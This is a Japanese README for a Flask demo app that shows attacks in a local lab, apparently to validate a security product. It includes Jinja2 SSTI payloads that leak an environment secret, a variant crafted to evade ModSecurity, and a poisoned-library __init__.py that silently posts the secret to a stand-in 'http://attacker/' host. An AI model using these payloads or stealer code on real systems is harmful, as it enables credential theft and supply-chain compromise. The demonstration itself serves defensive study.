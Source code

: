 # flask-demoapp

Phrudeの検証で用いたPython Flask製のデモ用Webアプリです。

Webアプリに任意の処理を挿入する攻撃のうち、外部からのHTTPリクエスト経由の攻撃としてSSTI、内部からの攻撃として汚染ライブラリの混入(Pythonのコードで攻撃処理が記述されているもの・マルウェアバイナリを実行するもの)が実装されています。

## Setup

動作させるためには

- [Docker](https://docs.docker.com/)
- [Docker Compose](https://docs.docker.com/compose/)

をインストールしてください

DockerおよびDocker Composeをインストール後、`docker compose up -d`コマンドで

- <http://localhost:8080> Python Flask製のデモ用Webアプリ
- <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリ
- <http://localhost:8082> 攻撃の実行時に流出させた情報を受け取る、攻撃者の模擬サーバー

が起動します。

## 擬似的な攻撃の実行

以下の5つの擬似的な攻撃を実行することができます。

### 1. 外部からのHTTPリクエスト経由の攻撃

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8080> デモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

この`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`は環境変数に格納されている秘密の鍵で、もしこの鍵がクラウドのリソースへアクセスするためのものである場合、このような攻撃による流出によってクラウドのリソースの不正な使用や情報流出に繋がります。

### 2. WAFに検知される外部からのHTTPリクエスト経由の攻撃

先程のデモ用WebアプリにオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したもので同じように

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

`403 Forbidden`エラーが画面に表示されます。

WAFはHTTPリクエストの文字列に含まれる、攻撃に特有の文字列を見つけることでそのHTTPリクエストが攻撃であるかを判断します。

`docker logs flask-demoapp-modsecurity-1`コマンドでオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)のログを確認すると`PHP Injection Attack: High-Risk PHP Function Call Found`というルールに抵触し、攻撃であると判断されたことが分かります。

### 3. WAFの検知を回避した外部からのHTTPリクエスト経由の攻撃

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避するよう細工した攻撃文字列を送信します

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避し、環境変数に格納されている秘密の鍵`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`を流出させることができました。

### 4. Pythonのコードで攻撃処理が記述されている汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリstealer_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import os
    import requests

    # Get an environment variable
    secret = os.getenv("CLOUD_SECRET_KEY")
    requests.post("http://attacker/", data={"CLOUD_SECRET_KEY": secret})
except:
    pass
```

ここではgetenv関数で環境変数に格納されている秘密の鍵を取得し、外部のサーバー`http://attacker/`へ送信しています。

ライブラリstealer_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/stealer
```

もしくは <http://localhost:8081/stealer> へブラウザでアクセスしてください。

画面に `Stealer demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリstealer_package内の不審な処理が実行され、秘密の鍵が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'CLOUD_SECRET_KEY': 'wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY'}]
```

と秘密の鍵が攻撃者の手に渡っていることが確認できます。

### 5. マルウェアバイナリを実行する汚染ライブラリの混入による攻撃

```
curl http://localhost:8081/malware
```
